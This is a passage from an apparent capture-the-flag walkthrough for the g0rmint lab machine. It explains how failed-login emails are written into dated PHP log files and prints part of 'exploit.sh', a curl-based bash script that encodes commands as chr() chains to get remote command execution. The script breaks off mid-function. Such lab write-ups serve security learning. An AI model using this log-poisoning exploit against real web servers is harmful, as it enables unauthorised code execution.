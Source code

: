 When authentication fails, a PHP file at `s3cr3t-dir3ct0ry-f0r-l0gs` logs the value of the email field, in the format of `"Y-m-d".php`, where `"Y"` is the 4-digit year, `"m"` is the 2-digit month with a leading zero and `"d"` is the 2-digit day with a leading zero. To view the PHP file, you must first establish an authenticated session or you get redirected to the login page. This is because the content of `dummy.php` is at the top of the file.

![dummy.php](/assets/images/posts/g0rmint-1-walkthrough/g0rmint-19.png)

I wrote `exploit.sh`, a `bash` script to automate what I've described—to execute remote commands on the host.

<div class="filename"><span>exploit.sh</span></div>
```bash
#!/bin/bash

HOST=192.168.198.130
BASE=g0rmint
SECRET=s3cr3t-dir3ct0ry-f0r-l0gs

EMAIL=$1
PASS=$2
COMD=$3

# authenticate
function authenticate() {
    curl -s \
         -c cookie \
         -d "email=$EMAIL&pass=$PASS&submit=submit" \
         http://$HOST/$BASE/login.php &>/dev/null
}

# encode
function encode() {
    for b in $(echo -n "$1" \
               | xxd -p \
               | sed -r 's/(..)/\1 /g'); do
        printf "chr(%d)\n" "0x$b"
    done \
    | tr '\n' '.' \
    | sed 's/.$//g'
    echo
}

# exploit
function exploit() {
    PAYLOAD=$(encode "$COMD")
```